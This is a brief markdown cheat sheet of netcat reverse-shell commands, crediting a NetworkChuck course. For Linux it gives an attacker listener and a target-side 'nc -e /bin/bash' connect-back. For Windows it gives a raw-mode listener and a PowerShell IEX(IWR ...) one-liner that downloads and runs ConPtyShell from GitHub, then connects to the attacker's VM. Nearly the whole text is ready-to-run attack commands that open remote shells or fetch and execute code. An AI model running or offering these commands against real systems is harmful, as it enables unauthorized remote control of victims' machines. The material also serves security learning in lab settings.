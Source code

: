 # netcat xamples

## Reverce shell attack

_**source**
> [networkchuck](https://learn.networkchuck.com/courses/take/ad-free-youtube-videos/lessons/25882550-how-to-get-remote-access-to-your-hacking-targets-reverse-shells-with-netcat)

### Attack Linux

#### ATTACKING machine

`nc -lnvp 87 -s ip-address-of-your-cloud-vm`

#### TARGET machine

```
nc -e /bin/bash ip-address-of-your-cloud-vm
OR
nc ip-address-of-your-cloud-vm
```

### Attack Windows

#### ATTACKING machine

`stty raw -echo; (stty size; cat) | nc -lvnp 87`

#### TARGET machine

`IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell ip-address-of-your-cloud-vm 87`
